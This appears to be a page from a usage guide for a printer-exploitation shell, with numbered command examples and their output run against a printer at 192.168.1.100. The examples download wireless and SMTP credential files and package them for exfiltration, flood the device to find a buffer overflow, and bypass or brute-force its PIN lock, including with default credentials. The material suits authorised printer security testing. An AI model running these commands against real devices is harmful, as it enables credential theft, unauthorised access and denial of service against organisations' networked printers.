 ```bash

# 4. Get network credentials
> download /etc/network/wireless.cfg
> download /etc/smtp/credentials.txt

# 5. Package for exfiltration
$ tar -czf printer_data.tar.gz exfiltrated/ nvram_contents.txt *.cfg
$ ls -lh printer_data.tar.gz
-rw-r--r-- 1 user user 2.1M Oct 04 13:00 printer_data.tar.gz
```

---

## 🔬 Vulnerability Testing Examples

### Example 15: Buffer Overflow Detection

```bash
# Test with increasing sizes
192.168.1.100:/> flood 1000
Flooding with 1000 bytes...
[Printer responds normally]

192.168.1.100:/> flood 10000
Flooding with 10000 bytes...
[Printer responds normally]

192.168.1.100:/> flood 50000
Flooding with 50000 bytes...
[Printer hangs - VULNERABLE!]

# Document vulnerability
# - Printer hangs at ~50000 bytes
# - Potential buffer overflow
# - CVE research recommended
```

---

### Example 16: Authentication Bypass

```bash
# Test 1: No authentication required
192.168.1.100:/> ls /etc
[Success - NO AUTH REQUIRED]

# Test 2: Lock bypass
192.168.1.100:/> lock 12345
192.168.1.100:/> unlock 0
[Success - LOCK BYPASSED]

# Test 3: Default credentials
192.168.1.100:/> unlock 0
192.168.1.100:/> unlock 1234
192.168.1.100:/> unlock admin
[One works - DEFAULT CREDS]

# Test 4: Brute force
192.168.1.100:/> unlock_bruteforce
Testing PIN 1...
Testing PIN 2...
...
Success at PIN 4567!
```